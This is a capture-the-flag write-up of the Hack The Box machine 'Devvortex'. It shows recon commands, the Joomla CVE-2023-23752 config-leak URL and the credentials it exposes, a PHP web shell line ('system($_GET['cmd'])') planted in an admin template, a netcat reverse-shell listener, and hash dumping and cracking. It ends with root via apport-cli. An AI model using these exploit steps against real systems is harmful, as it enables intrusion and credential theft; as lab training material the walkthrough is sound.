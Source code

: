 ```yaml
---
title: "Devvortex"
tags:
    - machine
    - cms
date: "2024-04-27"
thumbnail: "/assets/img/thumbnail/Devvortex.png"
bookmark: true
---
```


# Description
---

<img src="/assets/img/thumbnail/Devvortex.png" alt="Devvortex">

# Solution
## Recon
---

Applying nmap scan

```bash
┌──(youssif㉿youssif)-[~/Desktop/HTBMachines/devvortex]
└─$ nmap -sV -sC -Pn -oA devvortex 10.10.11.242
Nmap scan report for 10.10.11.242
Host is up (0.22s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```
we see that there's a web service on port 80 and there's a domain devvortex.htb should be submitted in `/etc/hosts` file
when we add the domain to /etc/hosts we can visit the site now
<img src="/assets/img/htb/devvortex/1.png">
After examining the site you won't find any interesting thing so let's do more reconnaisance.

```bash
┌──(youssif㉿youssif)-[~/Desktop/HTBMachines/devvortex]
└─$ gobuster dir -u http://10.10.11.242/ -w ~/Desktop/tools/SecLists/Discovery/Web-Content/raft-small-directories.txt -b 302
```
but I got no useful results, so let's try subdomain enumeration

```bash
┌──(youssif㉿youssif)-[~/Desktop/HTBMachines/devvortex]
└─$ ffuf -u http://10.10.11.242 -H "Host: FUZZ.devvortex.htb" -w ~/Desktop/tools/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -ac
dev                     [Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 153ms]
```
## shell as www-data
---
We found a subdomain here which is `dev.devvortex.htb`. let's add it to /etc/hosts file and visit the subdomain.
<img src="/assets/img/htb/devvortex/2.png">
After examining the site you won't find any interesting thing also so let's do more reconnaisance.
I found interesting endpoints in `/robots.txt` endpoint.
<img src="/assets/img/htb/devvortex/3.png">
when you visit `/administrator` endpoint you will find login page powered by joomla cms.
You can find tips for joomla pentesting <a href="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla">here</a>.
you will find in the link above that `/administrator/manifests/files/joomla.xml` endpoint let's you know the version of joomla.
<img src="/assets/img/htb/devvortex/4.png">
We see that the version is `v4.2.6` which we can find that it's vulnerable to `CVE-2023-23752`.
You can find many articles about the cve <a href="https://vulncheck.com/blog/joomla-for-rce">here</a> as example and from them i appended `/api/index.php/v1/config/application?public=true` to the url and got this
<img src="/assets/img/htb/devvortex/5.png">
Nice we got credentials `lewis:P4ntherg0t1n5r3c0n##` which will be used to login to joomla dashboard.
continue reading in <a href="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla">this</a> and you will find what you should do next.
You should go to system and you will find many templates i choosed `Administrator Templates` and find many files.
I opened `index.php` and added this line `system($_GET['cmd']);` so when i visit this `http://dev.devvortex.htb/administrator/index.php?cmd=whoami` I see `www-data` which is the result of whoami command in the beginning of the site
<img src="/assets/img/htb/devvortex/6.png">
Nice we have RCE let's get a shell.
setting up a listerner at port 4444
```bash
┌──(youssif㉿youssif)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```
and i went to <a href="https://www.revshells.com/">revshells</a> for the reverse shell payload.
You can use many php shells as the payload will be inserted in php code (I used pentest monkey php shell) added it to index.php file in the admin templates and i got the shell as `www-data`

## shell as logan
---
stablize the shell using ```python3 -c "import pty;pty.spawn('/bin/bash)"```
If you remember the article of the CVE we used, The credentials are usually for MYSQL db and when we use the command ```ss -tulpn``` we find that port 3306 is used which is the default for MYSQL.
Let's access MYSQL db
```bash
www-data@devvortex:/$ mysql -u lewis -p
mysql -u lewis -p
Enter password: P4ntherg0t1n5r3c0n## 
```
We accessed the db successfully and after digging into it we found `sd4fg_users` table in joomla database
```bash
mysql> select username,password from sd4fg_users;
select username,password from sd4fg_users;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan    | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+----------+--------------------------------------------------------------+
2 rows in set (0.00 sec)
```
we have two users with two hashed passwords i tried to crack them but only the password of the user logan is cracked successfully.
```bash
┌──(youssif㉿youssif)-[~/Desktop/HTBMachines/devvortex]
└─$ john hash --show                                            
?:t************

1 password hash cracked, 0 left
```

I used this password in ssh ```ssh logan@10.10.11.242```
and congrats u are logan now
<img src="/assets/img/htb/devvortex/7.png">
```bash
logan@devvortex:~$ ls
user.txt
logan@devvortex:~$ cat user.txt 
1*******************************
```

## shell as root
---

```bash
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```
We find that there's a command you can execute using sudo
I found that this command is vulnerable to privesc <a href="https://vk9-sec.com/cve-2023-1326privilege-escalation-apport-cli-2-26-0/">here</a>.
Briefly you will walkthrough the choices until you get view report which will be opened in a less page as root so you can execute `!/bin/bash` as root and now you are root.
```bash
root@devvortex:/home/logan# cd /root
root@devvortex:~# cat root.txt 
b*******************************
```
I wish the walkthrough helped you ^^

<img src="/assets/img/htb/devvortex/8.png">
